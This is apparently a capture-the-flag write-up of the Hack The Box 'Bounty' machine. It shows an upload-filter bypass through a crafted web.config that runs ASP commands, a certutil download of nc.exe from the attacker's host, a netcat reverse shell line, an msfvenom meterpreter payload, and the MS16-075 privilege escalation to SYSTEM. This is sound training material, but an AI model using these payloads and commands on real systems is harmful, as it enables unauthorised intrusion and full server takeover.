




---
tags:
  - aspx_web_config
  - ms16-075
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Bounty
- Reference : https://0xdf.gitlab.io/2018/10/27/htb-bounty.html
- Solved : 2025.1.12. (Sun) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Identified `http(80)` running on Microsoft IIS 7.5.
    - **Web Server Details**: Found HTTP headers indicating the server uses ASP.NET and discovered potentially risky HTTP methods (e.g., TRACE).
    - **Directory Enumeration**: Discovered `/uploadedfiles` (403 Forbidden) and `/transfer.aspx` (file upload functionality).
    
2. **Web Exploitation**
    - **File Upload Testing**:
        - Upload restricted by extension; allowed `.jpg`, `.png`, `.gif`, and `.config`.
        - Bypassed extension filter using `.config` and a crafted `web.config` file.
    - **ASP.NET RCE**: Used `web.config` to execute inline ASP code for running commands like `whoami`.
    
3. **Initial Foothold**
    - **Reverse Shell**:
        - Uploaded `nc.exe` using `certutil` from a hosted HTTP server.
        - Executed `nc.exe` to establish a reverse shell as user `merlin`.
        
4. **Privilege Escalation**
    - **Vulnerability Identification**:
        - Enumerated the system (`Windows Server 2008 R2`) with no hotfixes.
        - Used `meterpreter`'s `local_exploit_suggester` to identify exploitable vulnerabilities.
    - **MS16-075 Exploitation**:
        - Successfully executed the `ms16-075_reflection_juicy` exploit to elevate privileges.
        - Gained `NT AUTHORITY\SYSTEM` shell.

### Key Techniques:

- **Enumeration**: Used tools like `nmap`, `nikto`, and `gobuster` to discover services and directories.
- **File Upload Bypass**: Exploited file upload functionality using `web.config` for RCE.
- **Privilege Escalation**: Leveraged outdated Windows Server vulnerabilities to escalate to `SYSTEM`.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.93
Performing quick port scan on 10.10.10.93...
Found open ports: 80
Performing detailed scan on 10.10.10.93...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 16:36 UTC
Nmap scan report for 10.10.10.93
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.81 seconds
```

Only a single port is open : http(80)
I expect this web server takes `asp`, `aspx` files.

### http(80)



The main page returns a single image.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://10.10.10.93
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.93
+ Target Hostname:    10.10.10.93
+ Target Port:        80
+ Start Time:         2025-01-12 16:38:57 (GMT0)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ /: Retrieved x-powered-by header: ASP.NET.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /MQKHYUHv.ashx: Retrieved x-aspnet-version header: 2.0.50727.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OPTIONS: Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST .
+ OPTIONS: Public HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST .
+ 8046 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2025-01-12 16:56:30 (GMT0) (1053 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nikto scan doesn't return anything useful..

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
```

Here I found two existing sub page : `/uploadFiles`, `/transfer.aspx`
I think these two are related.
It seems to be a directory containing uploaded files. But I got 403 forbidden error.
But I got a right page on `/transfer.aspx`



It seems that I can upload files here.
Let's test this function.

It returns an error with `txt` extension file, but accepts `jpg` file.
And I can access the uploaded file from `/uploadedfiles/`.
This will trigger RCE if I can upload `aspx` webshell here.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=9000 -f aspx > rshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2875 bytes
```

However, it was not working.. 
I also tried to add NULL bytes (`%00.jpg`) to bypass the filter.

```kotlin
Content-Disposition: form-data; name="FileUpload1"; filename="met_rev_443.aspx500.jpg"
```

It successfully bypass the filter, but when I fetched the uploaded file, I got this error.




# Shell as `merlin`

### Find acceptable extension

To find a working extension, I used Burpsuite's Intruder.



I used `/usr/share/seclists/Fuzzing/extensions-skipfish.FUZZ.txt`.
And found several working extensions : `config`, `doc`, `gif`, `jpg`, `png`

Among the extensions, I think only `config` might be different and useful since others are just images or document files.

### Use `web.config` to run `aspx`

I googled "aspx config rce" and found the following post :
https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/

It says that I can use `web.config` file to run `aspx` code.
And here's the template :


```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

I uploaded the file, and I got "3" when I fetched `/uploadedfiles/web.config`, which implies that the `aspx` code is executed!

Let's edit the `aspx` code part to run RCE.

```xml
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Response.write("<pre>")
Set wShell = CreateObject("WScript.Shell")
Set cmd = wShell.Exec("cmd /c whoami") 
output = cmd.StdOut.ReadAll()
Set cmd = Nothing
Set wShell = Nothing

Response.write(output)
Response.write("</pre><!-"&"-")
%>
-->
```

And I fetched it again, and got the folloiwng : `bounty\merlin`
So, it works!

### Open reverse shell

I modified `aspx` code part to download `nc.exe` file from kali.

```xml
<%
Response.write("-"&"->")
Response.write("<pre>")
Set wShell = CreateObject("WScript.Shell")
        Set cmd = wShell.Exec("cmd /c certutil.exe -urlcache -split -f http://10.10.14.15:8000/nc.exe C:\Users\Public\Downloads\nc.exe") 
output = cmd.StdOut.ReadAll()
Set cmd = Nothing
Set wShell = Nothing

Response.write(output)
Response.write("</pre><!-"&"-")
%>
```

I prepared `nc.exe`.

```swift
┌──(kali㉿kali)-[~/htb]
└─$ locate nc.exe              
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.93 - - [12/Jan/2025 19:18:44] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.93 - - [12/Jan/2025 19:18:45] "GET /nc.exe HTTP/1.1" 200 -

```

Then, it successfully downloaded the file.

```yaml
****  Online  ****
  0000  ...
  e800
CertUtil: -URLCache command completed successfully.
```

Now, it's time to open a reverse shell using the uploaded `nc.exe`.
I edited `web.config` again.

```xml
<%
Response.write("-"&"->")
Response.write("<pre>")
Set wShell = CreateObject("WScript.Shell")
        Set cmd = wShell.Exec("cmd /c C:\Users\Public\Downloads\nc.exe -e cmd.exe 10.10.14.15 9000") 
output = cmd.StdOut.ReadAll()
Set cmd = Nothing
Set wShell = Nothing

Response.write(output)
Response.write("</pre><!-"&"-")
%>

```

I waited on listener for a while, and fetched `/uploadedfiles/web.config` again.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000              
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.93] 49161
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin
```

I got `merlin`'s shell!


# Shell as `SYSTEM`

### Enumeration

```yaml
c:\Users\merlin\Desktop>systeminfo
systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          1/12/2025, 6:33:30 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,565 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,597 MB
Virtual Memory: In Use:    498 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

Although the OS(Windows Server 2008) is quite outdated, there's no hotfix applied here.

### Find exploits using `meterpreter`'s exploit-suggester

To run `multi/recon/local_exploit_suggester`, I opened another meterpreter shell.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=9001 -f exe -o rshell.exe     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: rshell.exe
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.93 - - [12/Jan/2025 19:29:17] "GET /rshell.exe HTTP/1.1" 200 -
10.10.10.93 - - [12/Jan/2025 19:29:18] "GET /rshell.exe HTTP/1.1" 200 -
```

On target's shell : 
```bash
c:\Users\merlin\Documents>certutil.exe -urlcache -split -f http://10.10.14.15:8000/rshell.exe
certutil.exe -urlcache -split -f http://10.10.14.15:8000/rshell.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.

c:\Users\merlin\Documents>.\rshell.exe
.\rshell.exe
```

On Kali :

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.15:9001 
[*] Sending stage (176198 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.14.15:9001 -> 10.10.10.93:49164) at 2025-01-12 19:30:09 +0000

meterpreter >

<SNIP>

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.93 - Collecting local exploits for x86/windows...
[*] 10.10.10.93 - 196 exploit checks are being tried...
[+] 10.10.10.93 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.93 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.93 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.93 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!                     
 3   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

It seems that several exploits are likely working with this machine.
I tried all listed exploits, and `ms16-075` exploit worked!

```bash
msf6 exploit(windows/local/ms16_075_reflection) > use exploit/windows/local/ms16_075_reflection_juicy
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > options

Module options (exploit/windows/local/ms16_075_reflection_juicy):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   CLSID    {4991d34b-80a1-4291  yes       Set CLSID value of the DCOM to
            -83b6-3328366b9097}             trigger
   SESSION  1                    yes       The session to run this module
                                            on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  none             yes       Exit technique (Accepted: '', seh
                                        , thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface
                                        may be specified)
   LPORT     9002             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[*] Started reverse TCP handler on 10.10.14.15:9002 
[+] Target appears to be vulnerable (Windows 2008 R2)
[*] Launching notepad to host the exploit...
[+] Process 1488 launched.
[*] Reflectively injecting the exploit DLL into 1488...
[*] Injecting exploit into 1488...
[*] Exploit injected. Injecting exploit configuration into 1488...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176198 bytes) to 10.10.10.93
[*] Meterpreter session 2 opened (10.10.14.15:9002 -> 10.10.10.93:49169) at 2025-01-12 19:42:43 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
``` 

I got `SYSTEM`'s shell!